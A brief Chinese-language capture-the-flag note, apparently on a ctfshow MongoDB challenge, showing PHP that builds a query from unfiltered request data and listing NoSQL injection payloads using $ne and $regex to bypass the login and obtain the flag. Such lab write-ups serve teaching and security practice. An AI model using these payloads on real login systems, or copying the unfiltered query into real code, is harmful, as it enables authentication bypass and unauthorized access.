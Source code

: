 eg

```php
  //无
  $query = new MongoDB\Driver\Query($data);
  $cursor = $manager->executeQuery('ctfshow.ctfshow_user', $query)->toArray();

//无过滤
  if(count($cursor)>0){
    $ret['msg']='登陆成功';
    array_push($ret['data'], $flag);
  }
```

`username[$ne]=1&password[$ne]=1`
或者正则
`username[$regex]=.*&password[$regex]=.*`
`username[$regex]=^[^a].*$&password[$ne]=1` -> username不以a开头 password不等于1
